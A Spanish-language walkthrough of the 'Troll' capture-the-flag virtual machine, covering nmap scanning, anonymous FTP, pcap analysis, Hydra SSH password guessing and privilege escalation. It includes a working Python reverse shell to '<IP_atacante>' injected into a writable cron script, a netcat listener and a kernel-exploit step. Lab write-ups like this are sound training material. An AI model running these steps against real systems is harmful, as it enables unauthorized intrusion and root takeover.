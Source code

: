 # Troll1

![imagen](https://github.com/90l3m0np13/Troll1/blob/main/Portada_LoL.jpeg)
#  Aprendiendo Pentesting: Resolución Práctica de la Máquina Troll


# Resolución de la Máquina Troll

Este documento describe el proceso paso a paso para resolver la máquina virtual "Troll". A continuación, se detallan las acciones realizadas para identificar vulnerabilidades, explotarlas y obtener acceso como usuario root.

---

## 1. Escaneo Inicial

Realizamos un escaneo de la red para identificar la IP de la máquina, los puertos abiertos y los servicios en ejecución.

```bash
nmap -sV -p- <IP_de_la_máquina>
```

### Puertos y Servicios Abiertos:
- **21/tcp**: FTP (vsftpd 3.0.2)
- **22/tcp**: SSH (OpenSSH 6.6.1p1)
- **80/tcp**: HTTP (Apache httpd 2.4.7)

---

## 2. Identificación de Vulnerabilidades

Exploramos posibles vulnerabilidades en los servicios identificados, consultando bases de datos como [CVE](https://cve.mitre.org/).

---

## 3. Acceso al Servicio FTP

Accedemos al servicio FTP utilizando el usuario `anonymous` sin contraseña.

```bash
ftp <IP_de_la_máquina>
```

### Archivo Encontrado:
- **lol.pcap**: Un archivo de captura de red que analizamos con Wireshark.

---

## 4. Análisis del Archivo `lol.pcap`

Descargamos el archivo `lol.pcap` a nuestra máquina local y lo abrimos con Wireshark.

```bash
get lol.pcap
```

### Pista Encontrada:
- En una transferencia de FTP-DATA, encontramos un nombre de usuario: `sup3rs3cr3tdirlol`.

---

## 5. Exploración del Servicio Web

Accedemos a la ruta web asociada al usuario encontrado:

  ![imagen](https://github.com/90l3m0np13/Troll1/blob/main/LoL.png) 
```
http://<IP_de_la_máquina>/sup3rs3cr3tdirlol
```

### Archivo Descubierto:
- **roflmao**: Un archivo oculto que contiene la pista `Find address <Pista>`.

---

## 6. Enumeración de Usuarios y Contraseñas

En la misma ruta web, encontramos dos carpetas:

1. **good_luck**: Contiene un listado de usuarios registrados en la máquina.
2. **this_folder_contains_the_password**: Contiene un archivo `Pass.txt` con una posible contraseña.

### Uso de Hydra:
Utilizamos Hydra para probar la contraseña encontrada con los usuarios listados.

```bash
hydra -L users.txt -p "contraseña_encontrada" <IP_de_la_máquina> ssh
```

---

## 7. Acceso SSH

Una vez identificado el usuario válido, accedemos a la máquina mediante SSH.

```bash
ssh "usuario"@<IP_de_la_máquina>
```

---

## 8. Escalada de Privilegios

### Método 1: Explotación de un Script Python

1. Identificamos un script en Python (`cleaner.py`) que se ejecuta periódicamente y es modificable.
2. Insertamos una reverse shell en el script.

```python
# Reverse Shell en Python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<IP_atacante>",4242))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

3. Ponemos en escucha Netcat en nuestra máquina.

```bash
nc -lvp 4242
```

4. Cuando el script se ejecute, obtendremos una shell como root.

### Método 2: Uso de un Exploit de Escalada de Privilegios

1. Buscamos un exploit para la versión de Ubuntu de la máquina.
2. Compilamos y ejecutamos el exploit.

```bash
gcc exploit.c -o exploit
./exploit
```

---

## 9. Obtención de la Flag

Una vez como root, buscamos el archivo `proof.txt` que contiene la flag.

```bash
ls /root
cat /root/proof.txt
```

---

## Referencias

- [Reverse Shell Cheatsheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#python)
- [Exploit Database](https://www.exploit-db.com)
```



